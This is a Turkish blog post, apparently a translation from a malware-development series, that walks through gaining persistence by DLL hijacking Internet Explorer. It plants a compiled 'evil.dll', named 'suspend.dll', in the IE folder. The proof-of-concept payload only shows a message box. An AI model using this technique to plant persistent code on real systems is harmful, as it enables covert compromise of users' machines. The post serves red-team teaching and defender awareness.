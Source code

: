 \newpage
\subsection{81. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 15. Internet Explorer. Basit C++ örneği.}

﷽


![pers](./images/75/2022-10-13_00-24_1.png){width="80%"}    

Bu gönderi, Internet Explorer aracılığıyla kötü amaçlı yazılım kalıcılığına dair ilginç bir teknik üzerine kendi araştırmamın sonucudur.    

### internet explorer

[Önceki](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) gönderilerimden birinde, DLL kaçırmanın gerçek dünya örneğinden bahsetmiştim. Bu sefer kurban Internet Explorer. Eminim çoğunuz onu kullanmıyorsunuzdur ve Windows sisteminden kasıtlı olarak silmeniz pek olası değildir.    

### pratik örnek

Önceki gönderimde olduğu gibi, sysinternals'tan [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)'u çalıştırıp aşağıdaki filtreleri ayarlayalım:    

![pers](./images/75/2022-10-13_00-03.png){width="80%"}    

Ardından `Internet Explorer`'ı çalıştırın:     

![pers](./images/75/2022-10-13_00-04.png){width="80%"}    

![pers](./images/75/2022-10-13_00-04_1.png){width="80%"}    

Gördüğünüz gibi, `iexplore.exe` süreci eksik birkaç DLL içeriyor ve bunlar muhtemelen DLL kaçırma için kullanılabilir. Örneğin `suspend.dll`:     

![pers](./images/75/2022-10-13_00-05.png){width="80%"}    

Hadi başka olası konumları arayalım, belki elimizde geçerli bir DLL vardır:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](./images/75/2022-10-13_00-09.png){width="80%"}    

Ancak gördüğünüz gibi, dosya bulunamadı, yani bu DLL yalnızca Internet Explorer tarafından kullanılıyor.    

Daha sonra "kötü" DLL'imi hazırladım, `meow-woof` mesaj kutusu:        

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### demo

Hadi her şeyi çalışırken görelim. Kötü amaçlı DLL’imizi derleyelim:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](./images/75/2022-10-13_00-12.png){width="80%"}    

Daha sonra dosyayı `suspend.dll` olarak adlandırıp Internet Explorer’ın yüklendiği dizine yerleştiriyorum:     

![pers](./images/75/2022-10-13_06-13.png){width="80%"}    

![pers](./images/75/2022-10-13_00-15.png){width="80%"}    

Ve son olarak kurban uygulamamızı çalıştırmayı deniyoruz:     

![pers](./images/75/2022-10-13_00-16_1.png){width="80%"}    

![pers](./images/75/2022-10-13_00-18.png){width="80%"}    

![pers](./images/75/2022-10-13_00-24.png){width="80%"}    

Pop-up'ı kapattıktan sonra IE düzgün çalışıyor, çökmedi:    

![pers](./images/75/2022-10-13_00-16.png){width="80%"}    

Gördüğünüz gibi çalıştı. Mükemmel! =^..^=     

### sonuç

Şimdi IE üzerinden kalıcılığı başardık.    

Bu yüzden bu gönderi kalıcılık kategorisine giriyor; kötü amaçlı DLL’imiz, kullanıcı IE’yi her başlattığında çalışacak. Ve kapattıklarında da. Windows severler için sürpriz! Herhangi bir şey yüklemenize veya kaldırmanıza bile gerek yok.    

Bu yöntem `Windows 11 x64` üzerinde de çalışıyor:    

![pers](./images/75/2022-10-13_06-37.png){width="80%"}    

Her ne kadar 2022 yılında birinin IE’yi çalıştırması pek olası olmasa da, katılır mısınız?   

Bir Windows hata avcısı olarak, işletim sisteminde ayrıcalık yükseltme açıklarını bulmak istiyorsanız, genellikle temiz bir Windows kurulumu ile boş bir sayfadan başlamak istersiniz.    

APT gruplarından herhangi birinin bu taktiği ve hileyi kullanıp kullanmadığını bilmiyorum, ancak umarım bu gönderi, yazılım geliştirirken özellikle mavi takım üyelerinin farkındalığını artırır ve kırmızı takım üyeleri için bir silah ekler.    

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
